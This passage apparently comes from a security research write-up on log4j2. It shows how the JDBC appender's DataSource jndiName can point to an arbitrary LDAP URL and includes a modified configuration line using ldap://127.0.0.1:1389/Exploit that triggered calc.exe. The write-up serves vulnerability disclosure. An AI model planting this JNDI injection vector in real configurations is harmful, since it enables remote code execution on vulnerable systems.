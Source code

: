 But before getting into the JDBC deserialization in log4j, we noticed that in the documentation there is a way to configure log4j so that it will fetch the database source dynamically and remotely via JNDI. The configuration of the remote database location is done with the DataSource element. Taking the example from the official documentation:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<Configuration status="error">
	<Appenders>
	<JDBC name="databaseAppender" tableName="dbo.application_log">
		     <DataSource jndiName="java:/comp/env/jdbc/LoggingDataSource" />
		 <Column ...
	</JDBC>
 </Appenders>
…
</Configuration>
```
there was not any restriction of putting an arbitrary LDAP remote URL, thus making it potential to the classic JNDI:LDAP deserialization vector (more information on the [Blackhat](https://www.youtube.com/watch?v=Y8a5nB-vy78) talk by Alvaro Munoz & Oleksandr Mirosh).
After changing the tag to:
```xml
<DataSource jndiName="ldap://127.0.0.1:1389/Exploit"/>
```
our payload was triggered, and we executed calc.exe on the machine.
<img src="/img/blogs/log4j2/Image-1.png" style="width: 100%;"/>
<video controls="" src="/videos/log4j2/Video-1.mov" style="width: 100%;"></video>
